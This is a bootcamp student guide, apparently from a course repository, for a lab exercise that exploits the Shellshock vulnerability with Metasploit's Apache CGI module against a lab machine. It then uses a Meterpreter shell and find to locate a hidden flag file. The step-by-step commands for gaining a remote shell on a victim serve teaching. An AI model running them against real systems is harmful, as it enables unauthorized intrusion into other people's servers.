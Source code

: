 ## Student Guide: Attacking Shellshock with Metasploit 
 
 The goal of this activity was to practice using the Metasploit framework to exploit Shellshock.

---
 
1. Type the command that launches Metasploit:
 
      - `msfconsole`
 
   ![Meta 1](./Images/META_1.png)
 
2. Type the command that performs a search for the `shellshock` exploit module:
 
   - `search shellshock`
 
   ![Meta 2](./Images/META_2.png)
 
3. Type the command that loads the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module:
 
   - `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
 
4. Type the command that shows the module options:
 
   - `show options`
 
   ![Meta 3](./Images/META_3.png)
 
5. Now that the `exploit/multi/http/apache_mod_cgi_bash_env_exec` module is loaded, configure the module's target using the victim's IP address and specify which MSF exploit module to use.
 
   - Type the command that sets the `RHOSTS` option to the given target's IP address:
 
      - `set RHOSTS 192.168.0.21`
 
   - Type the command that sets the `TARGETURI` path to use the exploit module `/cgi-bin/vulnerable`:
 
      - `set TARGETURI /cgi-bin/vulnerable`
  
 6. Type the command that runs the exploit.
 
      - `run` or `exploit`
 
7. A Meterpreter session should now be open. 
   - Try to locate the hidden `flag` file on the exploited machine. 
   - **Hint** We'll cover this more in class next time, but try using Meterpreter's `shell` command to gain a **bash shell** into the victims machine.
   
`Solution:`

There are a few different to locate the locate the hidden flag. One of the easiest ways to locate the flag is by using the meterpreter's built in `shell` command to get a bash shell into the victims machine. From there, you can navigate through the different directories and use the `find` command to locate the flag. 
- Run: `shell` to get the shell command. 
- Run: `cd /` to the current directory to the root directory. 
- Run: `find . -iname flag` to find the flag file. 

You'll find the flag file in the `/var/www/secrets` directory. 

 
   ![Meta 4](./Images/META_4.png)
   
____
  
&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

